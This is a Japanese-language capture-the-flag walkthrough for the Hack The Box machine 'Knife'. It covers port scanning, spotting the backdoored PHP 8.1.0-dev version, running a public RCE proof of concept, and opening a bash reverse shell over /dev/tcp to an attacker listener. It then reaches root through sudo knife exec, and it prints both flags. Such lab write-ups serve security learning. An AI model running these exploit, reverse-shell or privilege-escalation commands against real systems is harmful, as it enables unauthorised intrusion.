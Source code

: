 https://app.hackthebox.com/machines/Knife

## STEP 1
```sh
└─$ rustscan -a 10.129.207.242 --scripts none
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.207.242:22
Open 10.129.207.242:80
10.129.207.242 -> [22,80]
```


## STEP 2  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Knife_01.png">

curlでヘッダを確認、PHPのバージョンを確認できた
```sh
└─$ curl -I http://10.129.207.242 
HTTP/1.1 200 OK
Date: Wed, 25 Jun 2025 04:22:33 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```
今回のphpのバージョンは、RCEが動作するバックドアが仕込まれていたバージョンでありPoCも発見  
```sh
└─$ searchsploit -m 49933
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/49933.py
```
PoCでRCE実行
```sh
└─$ python3.13 49933.py
Enter the full host url:
http://10.129.207.242/ 

Interactive shell is opened on http://10.129.207.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ bash -c "bash -i >& /dev/tcp/10.10.16.7/4444 0>&1"
^CExiting...
```
リバースシェル取得、ユーザフラグゲット！
```sh
└─$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.129.207.242] 51632
bash: cannot set terminal process group (911): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ id
id
uid=1000(james) gid=1000(james) groups=1000(james)


james@knife:~$ cat /home/james/user.txt
cat /home/james/user.txt
bba83508c99c3412f30c9113955ebe23
```


## STEP 3
`/usr/bin/knife`がパスワードなしでroot権限実行できる
```sh
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
[gtfobins](https://gtfobins.github.io/gtfobins/knife/)で権限昇格のコマンドを確認、ルートフラグゲット
```sh
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
sudo knife exec -E 'exec "/bin/sh"'


id
uid=0(root) gid=0(root) groups=0(root)


cat /root/root.txt
c5d240400c720f165d8b28ebcae5b6bd
```
